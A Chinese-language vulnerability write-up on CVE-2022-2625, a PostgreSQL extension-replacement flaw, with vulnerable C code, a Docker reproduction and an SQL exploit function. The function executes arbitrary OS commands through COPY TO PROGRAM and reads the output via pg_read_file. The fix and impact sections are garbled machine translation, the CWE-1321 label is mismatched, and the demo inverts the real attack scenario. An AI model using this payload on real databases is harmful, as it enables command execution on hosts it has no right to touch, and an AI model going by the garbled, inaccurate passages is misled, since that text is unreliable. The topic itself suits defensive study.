


# CVE-2022-2625 CWE-1321&915 PostgreSQL 命令注入

## 漏洞背景

- **PostgreSQL：**PostgreSQL 是一个开源、功能强大的对象关系型数据库管理系统，广泛应用于 Web 开发、数据分析和企业级应用。它支持 ACID 事务、复杂查询、全文搜索和多版本并发控制（MVCC），确保高并发和数据一致性。PostgreSQL 提供了扩展性，允许用户自定义数据类型、函数和索引，还支持 JSON 和地理空间数据。
- **扩展（Extension）：**PostgreSQL 的一种打包机制，用来把一组 SQL 对象（如函数、类型、操作符、表、视图等）和对应的安装脚本集中管理；数据库管理员只需通过 `CREATE EXTENSION` 命令，就能一次性在数据库里创建这些对象，而无需手动逐条执行 SQL 文件，从而方便分发、安装、升级和维护第三方功能模块（如 `postgis`、`hstore` 等）。`.control` 文件告诉 PostgreSQL 这个扩展的基本信息和元数据，相当于扩展的“说明书”。`--<version>.sql` 文件定义安装扩展时要执行的 SQL 脚本内容（建表、建函数、建类型等）。PostgreSQL 会去找 `.control` 文件 → 看到 `default_version = '1.0'` → 自动加载并执行 `--1.0.sql` 里的所有 SQL。
- **CWE-1321: Improperly Controlled Modification of Object Prototype Attributes ('Prototype Pollution') ：**对已有对象或原型属性的修改缺乏严格控制，可能让攻击者将不属于自己的对象“挂靠”或“篡改”，进而影响后续使用这些对象的代码逻辑。
- **CWE-915: Improperly Controlled Modification of Dynamically-Determined Object Attributes：****运行时根据动态输入来确定要修改的对象属性时缺乏边界检查**，攻击者能够通过构造或引导，让系统去操作原本不该修改的对象。

## 漏洞原理

PostgreSQL 在扩展安装或升级时，如果扩展脚本中使用了 `CREATE OR REPLACE` 或 `CREATE IF NOT EXISTS`，数据库没有强制检查目标对象是否已经属于该扩展，导致攻击者可以事先在可写 schema 中放置同名对象，一旦扩展被安装或更新，该对象就会被替换或收编为扩展成员，后续在受害者（甚至超级用户）调用时即会执行攻击者定义的逻辑，从而实现以受害者身份执行任意代码。

## 漏洞定位


核心缺陷位于 `src/backend/catalog/pg_depend.c::recordDependencyOnCurrentExtension()`：当 `creating_extension` 为真且调用方传入 `isReplace=true` 时，受影响代码只拒绝“已经属于其他扩展”的对象；如果对象原本已存在且独立，则仍会记录当前扩展的依赖关系，实际上会在没有提示的情况下把目标对象并入该扩展。

```c
oldext = getExtensionOfObject(object->classId, object->objectId);
if (OidIsValid(oldext))
{
    if (oldext == CurrentExtensionObject)
        return;
    ereport(ERROR, ...);  /* belonged to another extension */
}

/* Vulnerable behavior: a free-standing pre-existing object reaches here. */
recordDependencyOn(&extension, object, DEPENDENCY_EXTENSION);
```


`CREATE ... IF NOT EXISTS` 路径也有相应的缺口： 在发现一个同名对象后,它是否已经是当前扩展的一部分没有被验证。 特定对象创建的切入点分布于各处 `pg_collation.c::CollationCreate()`， `pg_type.c::TypeCreate()`， `commands/view.c::DefineVirtualRelation()`， `commands/foreigncmds.c`， `commands/sequence.c`等 类。 修复不仅使替换路径拒绝独立对象,而且还增加了一个新的 `checkMembershipInCurrentExtension()` 如果不是 exists 的条目呼叫。

## 漏洞修复


升级到 PostgreSQL  10.22， 11.17， 12.12， 13.8， 14.5,或后来。 提交 `b9b21acc766db54d8c337d508d0fe2f5bf2daab0` 生产 `recordDependencyOnCurrentExtension()` 在替换时拒绝先前存在的独立对象并添加 `checkMembershipInCurrentExtension()` 改为 `IF NOT EXISTS` 对象创建路径。 因此,扩展脚本只能重用已经属于该扩展的物件。

直至补丁,安装或更新只从孤立维护窗口中信任的包中扩展。 在每次行动之前,检查攻击者创建的物体的目标计划,其名称预计为扩展,撤销 `CREATE` ,并且只有在验证了所有权和依赖性之后才删除意外对象。

## 影响范围


** 受影响的版本:** PostgreSQL：

- 10.0 改为 10.21
- 11.0 改为 11.16
- 12.0 改为 12.11
- 13.0 改为 13.7
- 14.0 改为 14.4

## 环境搭建

启动 Docker 环境，PostgreSQL 版本为 12.2，管理员为 postgres，密码为 postgres，已存在数据库 test，存在扩展控制文件cve_2022_2625_ext.control，sql脚本文件cve_2022_2625_ext--1.0.sql

```txt
CNA:NVD    Base Score:8.0 High    Vector:CVSS:3.1/AV:N/AC:H/PR:L/UI:N/S:U/C:L/I:N/A:N
```

```txt
cpe:2.3:a:postgresql:postgresql:12.2:*:*:*:*:*:*:*
```



## 漏洞复现

1. 使用 postgres 用户身份连接容器中的 PostgreSQL 的数据库 test 

   ```bash
   docker exec -it postgres-12.2 psql -U postgres -d test
   ```

2. 创建一个对照函数 ext_cmd_func，传参 id 命令运行该函数，可以看到其无法执行任何命令

   ```sql
   CREATE OR REPLACE FUNCTION ext_cmd_func(cmd text)
   RETURNS text
   LANGUAGE sql
   AS $$
       -- Control version: does not run the command, just returns a demo string.
       SELECT 'run_cmd (control): command not executed, param = ' || quote_literal(cmd);
   $$;
   ```

   ```bash
   SELECT ext_cmd_func('id');
   ```

3. 创建扩展 cve_2022_2625_ext，其 sql 脚本文件存在同名同参的 ext_cmd_func 函数，且能够执行命令

   ```sql
   CREATE EXTENSION cve_2022_2625_ext;
   ```

4. 再次传参 id 运行该函数，可以看到命令成功执行，返回了执行结果

   ```bash
   SELECT ext_cmd_func('id');
   ```




## EXP分析

```sql
CREATE OR REPLACE FUNCTION ext_cmd_func(cmd text)
RETURNS text
LANGUAGE plpgsql
AS $func$
DECLARE
    result text;
BEGIN
    -- 1) 执行系统命令（把 stdout 重定向到临时文件）
    EXECUTE format('COPY (SELECT 1) TO PROGRAM %L', cmd || ' > /tmp/cmd.out');

    -- 2) 读取临时文件内容（无需 COPY TO STDOUT）
    SELECT pg_read_file('/tmp/cmd.out') INTO result;

    RETURN result;
END;
$func$;

```

扩展的 sql 脚本文件中创建了与之前同名同参的恶意函数，在创建扩展时，sql 脚本会执行，在存在漏洞的版本中，sql 脚本中的恶意函数覆盖了原先的函数。当 postgres 用户再次调用之前的函数时，实际调用的是该恶意函数，由此达到以 postgres 用户执行任意命令的目的。

## 参考链接


[NVD - CVE-2022-2625](https://nvd.nist.gov/vuln/detail/CVE-2022-2625)

[In extensions, don't replace objects not belonging to the extension. · postgres/postgres@b9b21ac](https://github.com/postgres/postgres/commit/b9b21acc766db54d8c337d508d0fe2f5bf2daab0#diff-674e842e2f25a7a164264331c8ff5a5c2e039220daa9e7f7b8f967c845cc12aa)
